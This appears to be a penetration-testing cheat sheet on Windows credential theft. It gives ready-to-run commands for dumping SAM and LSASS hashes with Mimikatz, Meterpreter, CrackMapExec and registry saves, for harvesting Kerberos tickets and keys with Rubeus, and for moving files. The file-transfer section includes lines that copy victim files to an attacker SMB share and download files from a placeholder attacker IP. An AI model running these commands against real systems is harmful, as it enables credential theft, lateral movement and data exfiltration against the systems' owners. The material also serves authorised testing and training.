 ```yaml
---
title: Windows privilege escalation
---
```


- [1. Extracting NT hash](#1-extracting-nt-hash)
  - [1.1. From local SAM](#11-from-local-sam)
    - [1.1.1. Mimiktaz](#111-mimiktaz)
    - [1.1.2. SAM dumping and offline hashes extraction](#112-sam-dumping-and-offline-hashes-extraction)
  - [1.2. From LSASS memory](#12-from-lsass-memory)
- [2. Extracting Kerberos TGT](#2-extracting-kerberos-tgt)
- [3. Extracting Kerberos user's key](#3-extracting-kerberos-users-key)
- [4. File transfer](#4-file-transfer)
  - [4.1. SMB (two ways)](#41-smb-two-ways)
  - [4.2. Evil-WinRM (two ways)](#42-evil-winrm-two-ways)
  - [4.3. HTTP (attacker -\> victim)](#43-http-attacker---victim)

## 1. Extracting NT hash

### 1.1. From local SAM
SAM (Security Account Manager) is a database with all the **local user** accounts and passwords. It acts as a database. Passwords, which are stored in the SAM, are hashed. SAM data is used by LSASS to verify user credentials.

#### 1.1.1. Mimiktaz
Mimikatz is one of the tools that are able to dump SAM file hashes.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Metasploit, when the session is already established, has built-in ability to dump SAM hashes.

```bash
# Meterpreter
meterpreter > hashdump
```

CrackMapExec tool is able to remotely dump SAM hashes (via SMB using credentials).

```bash
crackmapexec smb <target-ip> -u <username> -p <password> --sam
```

#### 1.1.2. SAM dumping and offline hashes extraction
If an attacker has privileges to access any file in the system, then he can export SAM and SYSTEM keys from the Windows registry and perform the extraction of hashes offline.

```powershell
# Dump SYSTEM hashes
reg save hklm\system <dump-file>

# Dump SAM hashes
reg save hklm\sam <dump-file>
```

Now, transfer files to the attacker machine.

```bash
# Dump hashes offline
impacket-secretsdump -sam <sam-file> -system <system-file> LOCAL 
```

### 1.2. From LSASS memory
LSASS (_Local Security Authority Subsystem Service_) is a process running on every Windows OS. It verifies users logging, handles password changes, creates access tokens, writes to the Windows Security Log. In a domain environment LSASS communicates with a Domain Controller. It manages NTLM, Kerberos, NetLogon authentication. It's not possible to use Windows without `lsass.exe` running. An attacker is able to dump the LSASS process memory and retrieve NT hashes.

Tips:

- Memory dump must be performed after logging in successfully. Correct data must be provided to LSASS process before extraction.
- Memory dump should be performed from SYSTEM or local Administrator account.
- Not secured LSASS memory dump can be performed using built-in Windows tools (e.g. [dump.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)). Then credentials can be extracted offline.

LSASS process might have additional security layer called _LSA protection_. It can be omitted with tools like **Mimikatz**.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "exit"
```

## 2. Extracting Kerberos TGT
Kerberos tickets can be extracted from LSASS memory (Kerberos harvesting) using `mimikatz` or `rubeus` tool. Most often it requires administrator privileges.

```powershell
# Show all Kerberos tickets stored in memory (and associated services)
Rubeus.exe triage

# Dump Kerberos tickets of :user
Rubeus.exe dump /user:<user>

# Dump Kerberos tickets of :service
Rubeus.exe dump /service:<service>
```

## 3. Extracting Kerberos user's key
It's done to perform Pass-the-Key attack.

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```

## 4. File transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 4.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 4.2. Evil-WinRM (two ways)
The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

```bash
> download <file>
> send <file>
```

### 4.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
wget http://<ATTACKER_IP>:<PORT>/file.exe -O file.exe
# Or
Invoke-WebRequest -URI <URL> -OutFile <FILE>
```
